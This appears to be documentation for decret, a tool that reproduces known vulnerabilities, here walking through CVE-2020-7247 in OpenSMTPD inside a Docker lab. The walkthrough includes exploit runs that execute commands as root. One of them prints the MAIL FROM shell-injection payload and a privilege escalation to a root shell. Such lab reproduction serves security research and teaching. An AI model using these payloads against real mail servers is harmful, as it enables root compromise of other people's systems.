 # CVE-2020-7247 (Remote Code Execution in opensmtpd)

### Description

CVE-2020-7247 is a vulnerability affecting OpenSMTPD, a mail server
developed by the OpenBSD project, which is also available on several
Linux distributions such as Debian.  The flaw was identified by the
Qualys Security team and disclosed in January 2020.

[The
report](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
describes a shell injection in the SMTP server of `opensmtpd`, which
can lead to a Local Privilege Escalation or even a Remote Code
Execution as `root` if the server is publicly exposed.



### Reproducing a Vulnerable Environment

```shell
python decret.py --number 2020-7247 --release bullseye --directory opensmtpd --selenium
```

Once in the container, we can try to start opensmtpd.

```shell
root@cve-2020-7247:/# smtpd -d
info: OpenSMTPD 6.6.1p1 starting
warn: purge_task: opendir: No such file or directory
pony express: listen: Address already in use
smtpd: process pony socket closed
```

There is actually a small issue with this example.  Indeed, Docker
produces a `/etc/hosts` with two `localhost` lines (one for IPv4 and
one for IPv6), and `opensmtpd` tries to bind twice on the loopback.

The simple solution here is to rewrite `localhost` as `127.0.0.1` in
the configuration file (updating `/etc/hosts` is not possible, since
the file is handled by the Docker engine):

```shell
root@cve-2020-7247:/# sed -i s/localhost/127.0.0.1/ /etc/smtpd.conf
root@cve-2020-7247:/# /etc/init.d/opensmtpd start
```

### Simple testing method

The vulnerable version of `opensmtpd` should now be running.

You can try to use one of the available exploits, such as
`/tmp/decret/exploit_2_verified`, which allows you to execute an
(almost) arbitrary command as `root` (there are size and charset
limitations, that can be overcome using various tricks, such as the
one described in Qualys advisory):

```shell
root@cve-2020-7247:/# apt install -y python3 python-is-python3
root@cve-2020-7247:/# ls /tmp/surprise
ls: cannot access '/tmp/surprise': No such file or directory
root@cve-2020-7247:/# python /tmp/decret/exploit_2_verified  127.0.0.1 25 "touch /tmp/surprise"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
root@cve-2020-7247:/# ls /tmp/surprise
/tmp/surprise
```

You can also try to run the Local Privilege Escalation in `/tmp/decret/exploit_0_verified`:
```
root@cve-2020-7247:/# apt install -y gcc
[...]
root@cve-2020-7247:/# su toto
toto@cve-2020-7247:/$ perl /tmp/decret/exploit_0_verified LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cve-2020-7247 ESMTP OpenSMTPD
> HELO fnord
< 250 cve-2020-7247 Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 4192aeac Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 May 26 17:00 /usr/local/bin/pwned
# id
uid=0(root) gid=0(root) groups=0(root),1000(toto)
# 
```

If we update `opensmtpd` in the container (you should  : 
```shell
apt-get install opensmtpd
```
The exploits do not work anymore.



### One-liner

Using customization options `--run-lines` and `--cmd-line`, we can
create a vulnerable container and expose it to the host.

```shell
python decret.py -n 2020-7247 -r bullseye \
                 --selenium -d opensmtpd \
                 --port 25 --host-port 2525 \
                 --run-lines "sed -i s/localhost/0.0.0.0/ /etc/smtpd.conf" \
                             "echo 'match from any for domain \"cve-2020-7247\" action \"local\"' >> /etc/smtpd.conf" \
                 --cmd-line "smtpd -d"
```

Since `opensmtpd` is restricted by default to only allow local
operations, we have to make more changes to the `smtpd.conf` file.

Once the container is running, you can simply use one of the exploit
from the host, and check that it works:
```shell
# From host
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
bin/ls: cannot access '/tmp/DANGER': No such file or directory
$ python opensmtpd/exploit_2_verified 127.0.0.1 2525 'touch /tmp/DANGER'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
DANGER
```
